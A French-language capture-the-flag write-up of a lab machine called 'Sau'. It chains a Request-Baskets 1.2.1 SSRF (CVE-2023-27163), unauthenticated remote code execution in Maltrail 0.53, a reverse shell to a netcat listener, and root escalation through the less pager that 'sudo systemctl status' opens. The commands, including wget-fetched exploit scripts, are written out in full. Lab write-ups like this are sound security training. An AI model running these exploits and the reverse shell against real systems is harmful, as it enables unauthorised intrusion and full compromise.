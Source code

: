 # sau
>> easy

Premierement nous faisons un nmap pour detecter les differents services.

```
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

nmap detect 4 service mais dont 2 serveur web le 55555 et 80 malheuresement le 80 est filtre et donc inacessible.
Je me connecte donc au serveur sur le 55555.

image

Ce serveur est un service request basket en version 1.2.1. Cette version est vulnerable a une SSRF j'utilise donc un exploit afin de profiter de cette vulnerability.

```shell
$ wget https://raw.githubusercontent.com/mathias-mrsn/request-baskets-v121-ssrf/master/exploit.py
$ python3 exploit.py http://10.10.11.224:55555 http://127.0.0.1:80
Exploit for SSRF vulnerability on Request-Baskets (1.2.1) (CVE-2023-27163).
Exploit successfully executed.
Any request sent to http://10.10.11.224:55555/usqudt will now be forwarded to the service on http://127.0.0.1:80.
```

Cette exploit utilise une vulnerabilite nomme Server Side Request Forgery cette vulnerabilite vient du faite que request basket redirige du cote serveur les request ce qui permet donc d'acceder a des services interne et prive en envoyant une requete a l'api '/api/basket/{name}'.

Maintenant que les requests sont redirige alors nous pouvons faire des request au service sur le port 80 en envoyant une request au basket que nous venons de creer avec le script.

Voici le site quand nous allons sur `http://10.10.11.224:55555/usqudt`.

image

Le service est un service Maltrail en version 0.53. Nous sommes vraiment chanceux car cette version est vulnerable a une RCE. Une vulnerabilite du au fait que durant le login le champ username est envoye dans un shell et donc on peut executer du code par le serveur. Ici ce code sera un reverse shell.

```
$ nc -lvp 9000
```
```
$ wget https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/main/exploit.py
$ python3 maltrait_ex.py 10.10.14.50 9000 http://10.10.11.224:55555/usqudt
Running exploit on http://10.10.11.224:55555/usqudt/login
```

Now I have a shell in the nc window.

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
puma@sau:/opt/maltrail$ whoami
whoami
puma
puma@sau:/opt/maltrail$ cat ~/user.txt
cat ~/user.txt
********************************
puma@sau:/opt/maltrail$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Quand je lance cette commande en tant que sudo le prompt s'affiche comme si il utilise la command less. J'essaye donc de taper une commande sous ce format `!whoami`.

```
sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!ls
!llss!ls
CHANGELOG     core    maltrail-sensor.service  plugins           thirdparty
CITATION.cff  docker  maltrail-server.service  requirements.txt  trails
LICENSE       h       maltrail.conf            sensor.py
README.md     html    misc                     server.py
```

Bingo I can print the flag.

```
!done  (press RETURN)!cat /root/root.txt

!ccaatt  //rroooott//rroooott..ttxxtt!cat /root/root.txt
********************************
```











